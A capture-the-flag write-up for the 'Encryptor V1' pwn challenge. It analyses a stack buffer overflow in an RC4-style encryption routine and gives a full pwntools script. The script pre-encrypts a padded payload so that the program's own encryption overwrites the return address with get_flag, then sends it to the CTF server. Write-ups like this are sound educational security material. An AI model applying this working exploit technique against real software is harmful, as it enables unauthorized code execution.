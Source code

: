 # Encryptor V1

## _Analyzing The Source_

The challenge had more than one path to solve it, first when i took a look at the source code i thought it was a **format string attack** challenge because of the `printf(ciphertext);` instruction, so let's say i lost a bit of time in that direction , then after talking with the author and checking the code i started getting more familiar with and i discovered the **BOF**.

The program was reading uptop `1024` chars (in case no _NULL BYTE_ is found, i will get to this later when talking about the exploit) but the `ciphertext` array was supposed to only have a max of `256` chars ( **unsigned char ciphertext`[BUFFER_SIZE]`;**) where **BUFFER_SIZE** = 256, so the BOF is located in `pseudo_random_generation` function which has the for loop that was going from `0` to the length of the `plaintext`( **char plaintext`[1024]`;**) and asigning encrypted chars to the `ciphertext` variable.

```c
int pseudo_random_generation(unsigned char *state, char *plaintext, unsigned char *ciphertext)
{

    int i = 0;
    int j = 0;

    for (size_t n = 0, len = strlen(plaintext); n < len; n++)
    {
        i = (i + 1) % STATE_SIZE;
        j = (j + state[i]) % STATE_SIZE;

        swap(&state[i], &state[j]);
        unsigned char rnd = state[(state[i] + state[j]) % STATE_SIZE];

        ciphertext[n] = rnd ^ plaintext[n];

    }

    return 0;
}
```

## _Exploitation_

The idea was to overwrite the `rip` pointer with the address of `get_flag` function, and since the ASLR protection was disabled the address of the `get_flag` will be the same on each run, so using `gdb` i examined the address of `get_flag` using the command :

```
x get_flag
```

> Note: You can also use `readelf -s encryptor` to see the entries in symbol table section of the file and get the address from there.

`GET_FLAG` = `0x0000000000401216`.

So our payload needs to be as follow : 264 chars + `GET_FLAG`, taking into account the 264 chars must have no `\0` (a NULL BYTE) otherwise the program will stop reading chars,but because of the `RC4` encryption we are not able to pass the payload as it is because it will be encrypted and we lose the address of `GET_FLAG`,so we need to encrypt it ourselve first then to send the resulted text to the binary because when the it tries to encrypt our input we will get the payload we want, i tried several prefix padding in order to not have a `NULL BYTE` in the middle when payload gets encrypted.

And Voila : `IngeHack{ch0$3n_c1ph3rt3xt_4tt4ck_1npwn!!}`

```python
from pwn import *
from arc4 import ARC4

GET_FLAG = 0x0000000000401216
LOCAL = False
if LOCAL:
    elf = ELF('./encryptor')
    p = elf.process()
else:
    p = remote("pwn.ingehack.ingeniums.club", 2001)

key = 'AA'

data_offset = b"BCDEFG"*12 + b"OB"*47 + b"HO" * 39 + b"PS"*10
payload = ARC4(key).decrypt(data_offset + p64(GET_FLAG))

print(p.recvuntil("Key: \n"))
p.sendline(key)
p.recvline()
p.sendline(payload)
print(p.recv())
print(p.recv())
```
